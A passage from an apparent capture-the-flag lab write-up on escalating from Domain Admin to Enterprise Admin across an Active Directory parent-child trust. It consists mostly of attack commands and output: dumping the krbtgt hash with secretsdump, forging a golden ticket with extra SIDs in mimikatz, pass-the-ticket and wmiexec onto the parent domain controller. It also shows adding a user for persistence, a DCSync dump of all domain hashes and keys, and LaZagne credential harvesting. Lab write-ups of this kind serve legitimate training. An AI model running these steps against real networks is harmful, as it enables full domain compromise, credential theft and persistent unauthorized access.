[*] ExtraSIDs      : S-1-5-21-2734290894-461713716-141835440-512
[*] ServiceKey     : 0540FE51DDD618F42A66EF059AC36441
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : 0540FE51DDD618F42A66EF059AC36441
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt
[*] Target         : internal.zsm.local

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator@internal.zsm.local'

[*] AuthTime       : 18/09/2023 14:25:55
[*] StartTime      : 18/09/2023 14:25:55
[*] EndTime        : 19/09/2023 00:25:55
[*] RenewTill      : 25/09/2023 14:25:55

[*] base64(ticket.kirbi):

      doIFrzCCBaugAwIBBaEDAgEWooIEhjCCBIJhggR+MIIEeqADAgEFoRQbEklOVEVSTkFMLlpTTS5MT0NBTKInMCWgAwIBAqEeMBwbBmtyYnRndBsSaW50ZXJuYWwuenNtLmxvY2Fso4IEMjCCBC6gAwIBEqEDAgEDooIEIASCBBw1g/RWdcfPIYKMlbkqL+xAXCwZifSOps2CdJ1E9kI9zD91gmJoP3rItENcQkehIgkygcNJAEvNyklioRrwI4uUJDRFlxqYBgC1qM9pvGst1Mk2vtdtA6hPbJMSDbi5WBv+di3u2JAmjyf6pz3om4TcFlGyxDieS3QPUZTSALiAsdwwFKSOW6v8VNnG0UHwoC1pX/ptaUJP95HyTaBnbbs+jFypFeQT0iiKkET1BwSRCU4kFaixOPr3YKwoqC9oGU31dsc7OWXefShumQ/NdbqMEIucVq4X74568AF/AsdeuWOjZhs9cvnh4W2Yoa9O2nFYnA0pLPw9n2Q/Jc6Tngw6XXantirnzGvFJDSSbAY16hX3+Bjzrl0H+EYPvTmTOprGKDFM6RxunbsodeupkkpZff+D67Oiq0bAg3nt9RpE2Kcxfd7Xu/kEtMDg/u+WLyotBmGo1/eDCMHHRMdb1eZjx/njavqC1i9cGDtkaTj1ZwljCPn/B5QP50CWoAA6AEbOvQGa/fx4LBpRqm1AAcDEEZfe4Db9ppaW7RwWFtWCrWhkjl70QmDWMLK9mvMfj+7jidXMWHrtKZrlxjMW3Vrv7hqy3r41Q6Me17iL2KZ2wDYXSiw8PIqAEUI2fEQDmSfsmRB5tZA4tsyc4y5dvuDuK2bqII2hnjyPBansVmWu1UR+FQWwzXAoYnp3YnaXHgfwzcXpbpPMhq4ZQ5MD5eRgR6tEYQTMT8HePkeagRSZ/sXN1/0PqD4jY+4v++yxI7LbenPC2Sp9tgpc+4WicIvXZGGkA/5OwQ1prIXPSpkFhvvSeTA4j2BKXaI1tq9q56lLWsFfTcg5TNejAF/LX+ETBQ8lax6EnZy6l0wEwhzy8idtxdA5DLqjVFkWhRvsMVuLrdtJB6HkD7DB2KHzbmIRoDNuen53qW+x3uhq66SFgFDcNW2DRXdlQ5ZumD9ISw+B3wixLCwmwNRZyta9+LZCh8e2epNmUYzfVgODDNwdwQd0yZNk1xEQBZWwxJ0amP5kEHioYwUxxYsgClQc8KX0460fhCNJZwfWAG0v3elXmwrCHfaOfX+rXRrLrOGw8dEp9Ddvc1Qvwk7APBfZwnlnBonv8bzBSp8usybiT97yZhzYMI7ajk26YSDTVzswAOXaN6jVmtSWeNmeNfo8NgW7X6rwWnLx3QJ/DOshNurL0W743oD9fbXl00Xn3fNAgpU79SLVTVGGCbR7pmaow4T4KpY9ZzCGqrsLuwydQDgiOw10Qh1vRswDvN0e55M+Cjge19RiCj+ZBDQp9bBP5hcUNFe4h/bpvE5dwZmFWKvc619SgE5F2/04y60He3Pf5Q3S7nbwjK8hRwGjZnznWs0ZGjp4jdXtsXurI2lp50ixUislyba8pvKt/pL75qOCARMwggEPoAMCAQCiggEGBIIBAn2B/zCB/KCB+TCB9jCB86ArMCmgAwIBEqEiBCCASwS5PdnnrpgOxD8dC56Dy1MdZXY1JFe0bxLYQBB2vaEUGxJJTlRFUk5BTC5aU00uTE9DQUyiGjAYoAMCAQGhETAPGw1BZG1pbmlzdHJhdG9yowcDBQBA4AAApBEYDzIwMjMwOTE4MTMyNTU1WqURGA8yMDIzMDkxODEzMjU1NVqmERgPMjAyMzA5MTgyMzI1NTVapxEYDzIwMjMwOTI1MTMyNTU1WqgUGxJJTlRFUk5BTC5aU00uTE9DQUypJzAloAMCAQKhHjAcGwZrcmJ0Z3QbEmludGVybmFsLnpzbS5sb2NhbA==
```

Checking back I see that Administrators@internal.zsm.local is part of Enterprise Admins@zsm.local



```
*Evil-WinRM* PS C:\Temp> Add-DomainGroupMember -Identity 'CN=ADMINISTRATORS,CN=BUILTIN,DC=INTERNAL,DC=ZSM,DC=LOCAL' -Members 'yovecio' -Cred $yovecio
Warning: [Add-DomainGroupMember] Error finding the group identity 'CN=ADMINISTRATORS,CN=BUILTIN,DC=INTERNAL,DC=ZSM,DC=LOCAL' : Exception calling "FindByIdentity" with "2" argument(s): "A local error has occurred.
"
*Evil-WinRM* PS C:\Temp> Add-DomainGroupMember -Identity 'CN=ADMINISTRATORS,CN=BUILTIN,DC=INTERNAL,DC=ZSM,DC=LOCAL' -Members 'yovecio'
```

Next we can check it again:

```
GroupDomain             : internal.zsm.local
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=internal,DC=zsm,DC=local
MemberDomain            : internal.zsm.local
MemberName              : yovecio
MemberDistinguishedName : CN=yovecio,CN=Users,DC=internal,DC=zsm,DC=local
MemberObjectClass       : user
MemberSID               : S-1-5-21-3056178012-3972705859-491075245-17601

GroupDomain             : internal.zsm.local
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=internal,DC=zsm,DC=local
MemberDomain            : internal.zsm.local
MemberName              : Melissa
MemberDistinguishedName : CN=Melissa Brown,OU=Internal,OU=Sites,DC=internal,DC=zsm,DC=local
MemberObjectClass       : user
MemberSID               : S-1-5-21-3056178012-3972705859-491075245-6603

Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\Temp\PowerView.ps1:6663 char:20
+             else { $Results = $ObjectSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : DirectoryServicesCOMException
GroupDomain             : internal.zsm.local
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=internal,DC=zsm,DC=local
MemberDomain            : internal.zsm.local
MemberName              : Domain Admins
MemberDistinguishedName : CN=Domain Admins,CN=Users,DC=internal,DC=zsm,DC=local
MemberObjectClass       : group
MemberSID               : S-1-5-21-3056178012-3972705859-491075245-512

GroupDomain             : internal.zsm.local
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=internal,DC=zsm,DC=local
MemberDomain            : internal.zsm.local
MemberName              : Administrator
MemberDistinguishedName : CN=Administrator,CN=Users,DC=internal,DC=zsm,DC=local
MemberObjectClass       : user
MemberSID               : S-1-5-21-3056178012-3972705859-491075245-500
```

We can also check it via Bloodhound:



* * *

## Trying again:

Now next day i will attempt again to gain EA from DA via Domain trust CHILD/PARENT. I activated RDP service on DC02(.16) and even if Desktop is not installed atleast I have a full working Powershell.



I will use this as rference this time: [https://redteamtechniques.github.io/Windows %26 AD Hacking/Lab Attacks/Abusing Parent Child Domain Trusts for Privilege Escalation from DA to EA/](https://redteamtechniques.github.io/Windows%20%26%20AD%20Hacking/Lab%20Attacks/Abusing%20Parent%20Child%20Domain%20Trusts%20for%20Privilege%20Escalation%20from%20DA%20to%20EA/)

And again starting byt checking Trust we can see is Bidirectional with source INTERNAL and target ZSM.local:

```
PS C:\Temp> Get-ADTrust -Filter *


Direction               : BiDirectional
DisallowTransivity      : False
DistinguishedName       : CN=zsm.local,CN=System,DC=internal,DC=zsm,DC=local
ForestTransitive        : False
IntraForest             : True
IsTreeParent            : False
IsTreeRoot              : False
Name                    : zsm.local
ObjectClass             : trustedDomain
ObjectGUID              : 04b1efaf-6936-4029-96e0-d76269e5489f
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source                  : DC=internal,DC=zsm,DC=local
Target                  : zsm.local
TGTDelegation           : False
TrustAttributes         : 32
TrustedPolicy           :
TrustingPolicy          :
TrustType               : Uplevel
UplevelOnly             : False
UsesAESKeys             : False
UsesRC4Encryption       : False


PS C:\Temp>
```

Again here we need the NTML hash of the INTERNAL/KRBTGT: ***aad3b435b51404eeaad3b435b51404ee:0540fe51ddd618f42a66ef059ac36441***

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# impacket-secretsdump INTERNAL/yovecio@192.168.210.16 -just-dc-user INTERNAL/krbtgt          
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0540fe51ddd618f42a66ef059ac36441:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:3bdcbeb0910e5887e6d6c7fbec6c3f29e1e099322ac91cc386ca296a5c5497b0
krbtgt:aes128-cts-hmac-sha1-96:b6252a6e5ec060751a03c1a73ef2af4e
krbtgt:des-cbc-md5:92755ef7ce8a6e16
[*] Cleaning up...
```

Next we need the SID of the Child domain(aka INTERNAL): ***S-1-5-21-3056178012-3972705859-491075245***

```
PS C:\Temp> Get-DomainSID
S-1-5-21-3056178012-3972705859-491075245
PS C:\Temp>
```

Next we need to find the SID of Enterprise Admins group at PARENT Domain: ***S-1-5-21-2734290894-461713716-141835440-519***

```
*Evil-WinRM* PS C:\temp> Get-DomainGroup "Enterprise *" -Cred $marcus 


grouptype              : UNIVERSAL_SCOPE, SECURITY
admincount             : 1
iscriticalsystemobject : True
samaccounttype         : GROUP_OBJECT
samaccountname         : Enterprise Admins
whenchanged            : 3/15/2022 3:35:44 PM
objectsid              : S-1-5-21-2734290894-461713716-141835440-519
objectclass            : {top, group}
cn                     : Enterprise Admins
usnchanged             : 12754
dscorepropagationdata  : {3/15/2022 3:35:44 PM, 3/15/2022 3:20:34 PM, 1/1/1601 12:04:16 AM}
memberof               : {CN=Denied RODC Password Replication Group,CN=Users,DC=zsm,DC=local, CN=Administrators,CN=Builtin,DC=zsm,DC=local}
description            : Designated administrators of the enterprise
distinguishedname      : CN=Enterprise Admins,CN=Users,DC=zsm,DC=local
name                   : Enterprise Admins
member                 : CN=Administrator,CN=Users,DC=zsm,DC=local
usncreated             : 12339
whencreated            : 3/15/2022 3:20:34 PM
instancetype           : 4
objectguid             : 028b118a-e895-48bf-a061-7501413b9874
objectcategory         : CN=Group,CN=Schema,CN=Configuration,DC=zsm,DC=local
```

Now we can use either, ticketer.py, Rubeus.exe or mimikatz.exe to forge a golden ticket so next we can ask for TGT and impersonate on the PARENT domain with something similar:

```
//Query
.\mimikatz.exe "kerberos::golden /user:Administrator /domain:baby.endark.local /sid:<Child Domain SID> /krbtgt:<krbtgt hash> /sids:<EnterpriseAdmin SID>" "exit"


//Result
mimikatz # kerberos::golden /user:Administrator /domain:internal.zsm.local /sid:S-1-5-21-3056178012-3972705859-491075245 /krbtgt:0540fe51ddd618f42a66ef059ac36441 /sids:S-1-5-21-2734290894-461713716-141835440-519
User      : Administrator
Domain    : internal.zsm.local (INTERNAL)
SID       : S-1-5-21-3056178012-3972705859-491075245
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-2734290894-461713716-141835440-519 ;
ServiceKey: 0540fe51ddd618f42a66ef059ac36441 - rc4_hmac_nt
Lifetime  : 19/09/2023 09:28:43 ; 16/09/2033 09:28:43 ; 16/09/2033 09:28:43
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !

mimikatz #
```

Lastly we have to inject the ticket.kirbi into session to be used for connection to DC01 @zsm.local:

```
//Check available Kerberos tickets before
mimikatz # kerberos::list

[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 19/09/2023 08:51:29 ; 19/09/2023 18:51:29 ; 26/09/2023 08:51:29
   Server Name       : krbtgt/INTERNAL.ZSM.LOCAL @ INTERNAL.ZSM.LOCAL
   Client Name       : yovecio @ INTERNAL.ZSM.LOCAL
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;

//inject the golden ticket into session
mimikatz # kerberos::ptt ticket.kirbi

* File: 'ticket.kirbi': OK

//Check again for changes as PROOF
mimikatz # kerberos::list

[00000000] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 19/09/2023 09:28:43 ; 16/09/2033 09:28:43 ; 16/09/2033 09:28:43
   Server Name       : krbtgt/internal.zsm.local @ internal.zsm.local
   Client Name       : Administrator @ internal.zsm.local
   Flags 40e00000    : pre_authent ; initial ; renewable ; forwardable ;

mimikatz #
```

EDIT: I changed lab and apparently I got it working on the other lab by using just same technique!

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# impacket-wmiexec INTERNAL.ZSM.LOCAL/Administrator@ZPH-SVRDC01.zsm.local -k -no-pass                          
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used

[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
C:\>hostname
ZPH-SVRDC01

C:\>ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is 1C84-5AEF

 Directory of C:\

08/05/2021  09:15    <DIR>          PerfLogs
24/05/2023  07:22    <DIR>          Program Files
08/05/2021  10:34    <DIR>          Program Files (x86)
14/03/2022  23:56    <DIR>          Users
19/09/2023  11:26    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  29,994,627,072 bytes free
```

I will add my user for persistence and add it to Enterprise admins!



And like that we have last flag:

```
*Evil-WinRM* PS C:\Users\Administrator> ls Desktop


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         11/8/2022   1:43 PM             36 flag.txt


*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat flag.txt
ZEPHYR{34t1ng_7h3_B0n3s_0f_N3tw0rks}
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

* * *

## POST Exploitation:

I will start by executing a DCSYNC and dump all the hashes from DC zsm.local with my username but first we need to disable realtime protection on the machine!

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# impacket-secretsdump ZSM/Administrator@192.168.210.10 -just-dc -hashes :84210eddc5724a7801fe78289ee94d44
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:84210eddc5724a7801fe78289ee94d44:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8a72936717997f33694d17bd2ce909fe:::
zsm.local\daniel.morris:1107:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
zsm.local\paul.williams:1110:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
zsm.local\marcus:4102:aad3b435b51404eeaad3b435b51404ee:3b24c391862f4a8531a245a0217708c4:::
zsm.local\ca_svc:4104:aad3b435b51404eeaad3b435b51404ee:7f3e79164258b9aeb22e6aff46a5ee69:::
zsm.local\jamie:4602:aad3b435b51404eeaad3b435b51404ee:0d5a6f0a4be64f84799bd19e48d690b7:::
yovecio:19101:aad3b435b51404eeaad3b435b51404ee:71ddafa4193caa4376aae61bcfeaf9d5:::
ZPH-SVRDC01$:1000:aad3b435b51404eeaad3b435b51404ee:b02f38febbe88d3297f779bf41157502:::
MAINTENANCE$:1104:aad3b435b51404eeaad3b435b51404ee:fe00c35591cfa216447f51e436a185d6:::
ZPH-GMSA-ADFS$:1105:aad3b435b51404eeaad3b435b51404ee:4b896425f96da66ebdf84262a2d0296f:::
ZPH-SVRCA01$:1106:aad3b435b51404eeaad3b435b51404ee:251e366fdd64eff18be0824ec7c6833c:::
ZPH-SVRADFS1$:1108:aad3b435b51404eeaad3b435b51404ee:24039a7fd44d8decd80b0897e333ec06:::
ZPH-SVRSQL01$:1601:aad3b435b51404eeaad3b435b51404ee:ecf68b5e132ca80e6864215d5fcbba03:::
ZPH-SVRMGMT1$:4101:aad3b435b51404eeaad3b435b51404ee:89d0b56874f61ad38bad336a77b8ef2f:::
PAINTERS$:1109:aad3b435b51404eeaad3b435b51404ee:2e40248626ff1092e58a736351f3bf1f:::
internal$:1602:aad3b435b51404eeaad3b435b51404ee:816ef17a56ab2fb54edf7287ba15dfce:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:24ebe114c4d8067024c2502f824eb7fac7bb9981cb8890cbe08108232239646b
Administrator:aes128-cts-hmac-sha1-96:af42e41319cbc844734a2ad4032b77d2
Administrator:des-cbc-md5:a7a2dcc89da7dc32
krbtgt:aes256-cts-hmac-sha1-96:45b1d73b87312453c7b82505e36f24efccf2c97b8a87443d58fcb77d06202842
krbtgt:aes128-cts-hmac-sha1-96:6882f340f1d58ae375780cd975463b32
krbtgt:des-cbc-md5:ab75ea79ba5e6ee5
zsm.local\daniel.morris:aes256-cts-hmac-sha1-96:98f9c26d75d011f46fbcc244cfe37209e6b7bf7c42dae175978fbc5d8b71e17e
zsm.local\daniel.morris:aes128-cts-hmac-sha1-96:ddce6e98cd45b5bb7fee867b557655ba
zsm.local\daniel.morris:des-cbc-md5:e3c88a89a832a23d
zsm.local\paul.williams:aes256-cts-hmac-sha1-96:a773e775478ef242b02613b1bdb2fd0af9ee49a747d0d0709a6302b00d45b675
zsm.local\paul.williams:aes128-cts-hmac-sha1-96:024d7824de28aecb8a56289c726ed56d
zsm.local\paul.williams:des-cbc-md5:1ada3bad7ce52997
zsm.local\marcus:aes256-cts-hmac-sha1-96:d487b6eda0fd6929373b02eca5b6a6b287315e3ce2edde0c83de21b81ae553b5
zsm.local\marcus:aes128-cts-hmac-sha1-96:c9d8300b395ea0b0eb33afb7ca5226b6
zsm.local\marcus:des-cbc-md5:2ff8e3d3fef7b06b
zsm.local\ca_svc:aes256-cts-hmac-sha1-96:3d4ca384edb097462c8d9539534d95e87fe417536a090d3f7a0cd567e5c9951c
zsm.local\ca_svc:aes128-cts-hmac-sha1-96:28d349a757e2c9d90df39383f6b0daae
zsm.local\ca_svc:des-cbc-md5:abbadc10e9265234
zsm.local\jamie:aes256-cts-hmac-sha1-96:596ecde87781ce96fd522762423da34ab9242c113b47ef6fc534fb13905c0763
zsm.local\jamie:aes128-cts-hmac-sha1-96:1edb55e67b84cdbbcd0f7bf9a6e8bfa9
zsm.local\jamie:des-cbc-md5:0df7ea16f28fd0ae
yovecio:aes256-cts-hmac-sha1-96:aa8e8ad7783da43b5854d8039285d720d1fe85a738bd66ee53a988d855951ce4
yovecio:aes128-cts-hmac-sha1-96:9c106c93c9d7df66a0e7e84a42fc90bd
yovecio:des-cbc-md5:d0b3dcd3f84aa2fb
ZPH-SVRDC01$:aes256-cts-hmac-sha1-96:6d744bcf94917def9e17130a9b2016122cb6bf3d1bd3c063c8cd5775a421829b
ZPH-SVRDC01$:aes128-cts-hmac-sha1-96:b47c954fb9b6ebdd037ff341b37dbf12
ZPH-SVRDC01$:des-cbc-md5:ef6db5322534cbef
MAINTENANCE$:aes256-cts-hmac-sha1-96:c3c376ec3eedaf2321f8698782c263ca69bf6da59cefc7e73bf14efcf21c7ecf
MAINTENANCE$:aes128-cts-hmac-sha1-96:fe8ea29c2a8cc22e5c291b8c635c4e8e
MAINTENANCE$:des-cbc-md5:7f384a7fba07cb13
ZPH-GMSA-ADFS$:aes256-cts-hmac-sha1-96:e4f7d0e254ed02ce2253208d87cf93e560644b8a640419fe0c7a2d5f830a2982
ZPH-GMSA-ADFS$:aes128-cts-hmac-sha1-96:cf04200cacb3238707f46f9c846135d0
ZPH-GMSA-ADFS$:des-cbc-md5:852ae6f8d36d134f
ZPH-SVRCA01$:aes256-cts-hmac-sha1-96:58f55915ff63e003265874900eb9c5452728509e86eb247cdabbe52a9167e159
ZPH-SVRCA01$:aes128-cts-hmac-sha1-96:84f8338aa766506ec9eb1cc34772cc03
ZPH-SVRCA01$:des-cbc-md5:a2ae15ce02d5bfad
ZPH-SVRADFS1$:aes256-cts-hmac-sha1-96:796e082a245949970ff89b4e2c94735b7f71d0b2afd5248c160a41d3d805f913
ZPH-SVRADFS1$:aes128-cts-hmac-sha1-96:783c219b5e98cd0205178144ee103459
ZPH-SVRADFS1$:des-cbc-md5:6e76aee3f41cb331
ZPH-SVRSQL01$:aes256-cts-hmac-sha1-96:f6fe8d901e4090893beeb9423fa67c74b2defc181c3cfefb96437926af186ac8
ZPH-SVRSQL01$:aes128-cts-hmac-sha1-96:d7c1a0e61eb480a75d0d8078fae84ec3
ZPH-SVRSQL01$:des-cbc-md5:297cad7a8a6d5786
ZPH-SVRMGMT1$:aes256-cts-hmac-sha1-96:937391acdbd6a5f63cf0f6700ac25aba7c8d747bcdd437f5efb419a12d8995c7
ZPH-SVRMGMT1$:aes128-cts-hmac-sha1-96:d73da5795d36d46bf61b1afb40b247f5
ZPH-SVRMGMT1$:des-cbc-md5:c84ada08a82caefd
PAINTERS$:aes256-cts-hmac-sha1-96:70c61f01ea118341c20a98a3a6c2cde8d8b28f71eb206c199a1ebdcb5fff4a04
PAINTERS$:aes128-cts-hmac-sha1-96:6afbd97a70b4e8429f751768e1cec011
PAINTERS$:des-cbc-md5:5ec1f81fadf4aba8
internal$:aes256-cts-hmac-sha1-96:df9363a352a7fadcd85103d98412db669d84ed42a4f38653707b798341860e9b
internal$:aes128-cts-hmac-sha1-96:cfa45e47d83779c875926d97692d6a3e
internal$:des-cbc-md5:b991a240df161589
[*] Cleaning up...
```

Next we can run Lazagne.exe just in case:

```
*Evil-WinRM* PS C:\temp> ./lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for c6337aa2-394a-4d08-a60c-87be70a4ddf8
[+] System masterkey decrypted for f99da3f9-26ff-4f1c-9965-af7ea0d11469

########## User: SYSTEM ##########

------------------- Pypykatz passwords -----------------

[+] Shahash found !!!
Shahash: 42ba11751bf4fa44432ef43c64e6d35a0874bc87
Nthash: b02f38febbe88d3297f779bf41157502
Login: ZPH-SVRDC01$

[+] Shahash found !!!
Shahash: af7144ac3ffb45270e39131cb921eea971e993d4
Nthash: 84210eddc5724a7801fe78289ee94d44
Login: Administrator

------------------- Lsa_secrets passwords -----------------

$MACHINE.ACC
0000   F0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   6B B0 7B 81 43 A3 67 82 4D FF 01 5B 45 62 28 2B    k.{.C.g.M..[Eb(+
0020   2F 2D 1E CF 41 41 73 5C 50 59 DF 5C E0 D8 03 B3    /-..AAs.PY......
0030   95 C2 7B B8 DE F9 74 44 D0 AE 73 7B 06 C3 D6 30    ..{...tD..s{...0
0040   3F 93 78 67 A8 D3 22 F2 74 F4 D2 65 0B 9F 9A 65    ?.xg..".t..e...e
0050   08 83 56 65 BB AD 50 FA 61 D2 78 B6 40 96 CF 7D    ..Ve..P.a.x.@..}
0060   2D F3 E5 92 F4 31 60 F4 98 83 4A 39 D0 A7 47 EA    -....1`...J9..G.
